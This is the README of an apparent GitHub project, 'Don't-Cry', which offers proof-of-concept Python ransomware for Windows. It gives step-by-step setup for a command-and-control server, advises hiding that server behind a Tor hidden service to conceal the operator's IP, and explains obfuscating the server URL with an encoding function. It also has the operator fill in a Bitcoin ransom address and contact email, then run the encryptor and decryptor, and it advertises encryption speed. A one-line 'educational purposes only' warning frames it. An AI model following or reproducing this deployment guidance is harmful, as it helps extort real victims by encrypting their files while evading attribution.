

<h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  
  
  = 1.87.0">
  
  
</div>


PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

  ```powershell
  pip3 install -r requirements-server.txt
  ```

2. Run the server:

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

> Or for debugging:

  ```bash
  python3 src/server.py
  ```

> 💡 **Tip:** You can also run the server behind a Tor hidden service to hide your real IP.
> Example (in `torrc`):
>
> ```txt
> HiddenServiceDir /var/lib/tor/dcry/
> HiddenServicePort 80 127.0.0.1:8080
> ```
>
> After restarting Tor, your Onion address will be available in `/var/lib/tor/dcry/hostname`.

### Client (Windows)

1. Install the required packages:
  
  ```powershell
  pip install -r requirements-client.txt
  ```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)
  
    * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
      ```python
      YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
      ```
      (Use the `ex42` function from the `edx42` module to encode your URL first.)
      
      Example:
      ```python
      encoded_url = ex42(b"https://your-tor-server.onion")
      YOUR_URL = dx42(encoded_url).decode()
      ```
  
     * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS`, `YOUR_DOWNLOAD_URL` similarly.
     * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

  ```powershell
  python src/setup.py build_ext --inplace
  Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```

4. Run the server (WSGI):

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

5. Run the ransomware:

  ```powershell
  python src/dcry.py
  ```

6. Run the decryptor:

  ```powershell
  python src/decryptor.py
  ```

---

## Performance Note

**Estimated encryption speed with 16 processes (1 file, 53 GB):**

- Speed per process: ~56 MB/s
- Using 16 processes: ~896 MB/s


> ⚡ Using multiprocessing allows Python to approach native C/C++ speeds for large files.

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

  * See details in [FAQ.md](docs/FAQ.md)

## Contributing

  * See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

  * See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

  * See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

  * This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

